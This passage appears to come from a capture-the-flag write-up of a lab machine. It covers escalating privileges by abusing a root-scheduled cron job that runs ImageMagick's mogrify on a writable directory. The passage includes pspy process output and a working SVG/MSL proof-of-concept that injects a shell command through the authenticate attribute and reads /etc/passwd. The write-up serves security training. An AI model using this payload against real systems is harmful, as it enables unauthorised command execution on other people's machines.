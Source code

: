 
## ImageMagick Command Injection

Running [pspy](https://github.com/DominicBreuker/pspy) on the target reveals a cron job running every so often. It appears to remove everything from `/tmp/` and then execute `/usr/local/bin/convert_images.sh`.

```bash
www-data@meta:~$ ./pspy64
...
2022/03/09 13:18:58 CMD: UID=0    PID=1      | /sbin/init
2022/03/09 13:19:01 CMD: UID=0    PID=16203  | /usr/sbin/CRON -f
2022/03/09 13:19:01 CMD: UID=0    PID=16202  | /usr/sbin/CRON -f
2022/03/09 13:19:01 CMD: UID=1000 PID=16205  | /bin/sh -c /usr/local/bin/convert_images.sh
2022/03/09 13:19:01 CMD: UID=0    PID=16204  | /bin/sh -c rm /tmp/*
2022/03/09 13:19:01 CMD: UID=0    PID=16206  |
2022/03/09 13:19:01 CMD: UID=1000 PID=16207  | /bin/bash /usr/local/bin/convert_images.sh
2022/03/09 13:19:01 CMD: UID=1000 PID=16208  | /usr/local/bin/mogrify -format png *.*
2022/03/09 13:19:01 CMD: UID=1000 PID=16209  | pkill mogrify
```

`convert_images.sh` changes into the `/var/www/dev01.artcorp.htb/convert_images/` directory and executes `/usr/local/bin/mogrify -format png` on all its contents. Then it kills any active `mogrify` processes.

```bash
www-data@meta:~$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

`www-data` has write access to `/var/www/dev01.artcorp.htb/convert_images/`.

```bash
www-data@meta:~$ ls -la /var/www/dev01.artcorp.htb/convert_images/
total 8
drwxrwxr-x 2 root www-data 4096 Jan  4 10:39 .
drwxr-xr-x 4 root root     4096 Oct 18 14:27 ..
```

According to [mogrify's documentation](https://imagemagick.org/script/command-line-options.php#format), the `-format` argument "converts any image to the image format specified." Since `png` is specified, this cron job attempts to convert all files in `/var/www/dev01.artcorp.htb/convert_images/` into PNG files.

According to [this blog post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html), a vulnerability exists in ImageMagick 7.0.10-35 up to 7.0.10-40 that allows a user to input an SVG file to `convert` and `mogrify` that injects an arbitrary command into ImageMagick's PDF delegate, which promptly executes the injected command.

The following SVG proof of concept executes `id` and writes the output to `/dev/shm/tgihf/output`.

```xml
<image authenticate='ff" `echo $(id)> /dev/shm/tgihf/output`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:/dev/shm/tgihf/exploit.svg" height="100" width="100"/>
  </svg>
</image>
```
